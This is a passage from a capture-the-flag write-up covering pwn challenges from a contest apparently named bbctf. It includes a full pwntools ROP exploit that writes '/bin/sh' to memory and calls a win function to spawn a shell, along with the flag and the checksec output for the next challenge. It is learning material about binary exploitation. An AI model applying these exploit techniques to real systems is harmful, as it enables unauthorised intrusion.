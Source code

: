 
We have a couple of options to choose from here, I'll write "/bin/sh" to `.data`.

The exploit:
```python
from pwn import *

elf = ELF("./chall")
# p = remote("157.180.92.15", 39124)
p = elf.process()
context.binary = elf
# context.log_level = "debug"

p.sendlineafter(b"Enter something: ", b"AAAA")

data = 0x404058
pop_rdi = p64(0x401381)
pop_rsi = p64(0x401383)
pop_rdx = p64(0x401385)
read_plt = elf.plt["read"]
ret = p64(0x40101a) 
win = elf.symbols["win"]
offset = 72

rop = ROP(elf)
rop.call('read', [0, data, 8]) # /bin/sh\x00 is 8 bytes 
rop.raw(pop_rdi)
rop.raw(0x539)
rop.raw(pop_rsi)
rop.raw(data)
rop.raw(win)

payload = flat({
	offset: rop.chain()
	})

p.sendlineafter(b"Enter message: ",payload)
p.sendline(b"/bin/sh\x00")

p.interactive()
```

Flag: bbctf{pointerpointstoapoint}

### smoll but angy (Pwn)

> The seas be vast, but even the smallest squall can sink the mightiest ship. A pirate's fury be swift, and only the cleverest scallywag can slip past his wrath. Ye best be minding where ye step, or he'll send ye straight to Davy Jones’ locker!
>
> **Author: OS1R1S**

This is a ret2win challenge that doesn't actually use stack canaries :p

It's a 32-bit challenge, something to keep in mind when dealing with calling conventions.
```
(ctfvenv) benkyou@fedora:~/Dev/bbctf/smolangy$ checksec *
[*] '/home/benkyou/Dev/bbctf/smolangy/smoll-but-angy'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Protections are enabled except for PIE, so buffer overflow should be more difficult.
